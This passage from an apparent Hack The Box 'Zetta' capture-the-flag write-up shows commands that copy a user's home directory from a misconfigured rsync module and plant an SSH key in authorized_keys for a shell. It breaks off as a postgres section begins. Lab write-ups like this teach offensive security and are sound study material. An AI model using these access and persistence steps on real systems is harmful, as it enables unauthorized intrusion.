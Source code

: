 I can copy the files to my host:

```

root@kali# rsync -a rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy/ .
...[snip]...
rsync: symlink "/media/sf_CTFs/hackthebox/zetta-10.10.10.156/rsync/.bash_history" -> "/dev/null" failed: Operation not permitted (1)
rsync error: some files/attrs were not transferred (see previous errors) (code 23) at main.c(1677) [generator=3.1.3]

```

I can’t get `.bash_history` because it’s linked to `/dev/null`, but I can get everything else, including `user.txt`:

```

root@kali# cat user.txt
a575bdb3************************

```

### SSH as roy

But more than access to his home directory, I would like a shell as roy. I remember that I have write access to this rsync module (or directory), so I’ll write my public key to `.ssh/authorized_keys` and ssh in. I can’t just copy the file into a folder that doesn’t exist. So I’ll generate a key and put the public key into a directory on my machine `.ssh/authorized_keys`. Then I’ll use `-aR` to copy the structure over:

```

root@kali# rsync -aR .ssh/  rsync://roy@[dead:beef::0250:56ff:fe88:e5fa]:8730/home_roy/

```

Once I do that, I can ssh with the private key:

```

root@kali# ssh -i ~/id_rsa_generated roy@10.10.10.156
Linux zetta 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64
roy@zetta:~$

```

## Shell as postgres

### Enumeration

This box has hints scattered in a couple places.

#### tudu

In the home directory next to the flag is `.tudu.xml`. This contains a todo list. I can view it as xml (which I did when first solving), or I can open it in the [Tudu](https://gitlab.com/tudu/tudu), which is way cooler looking:
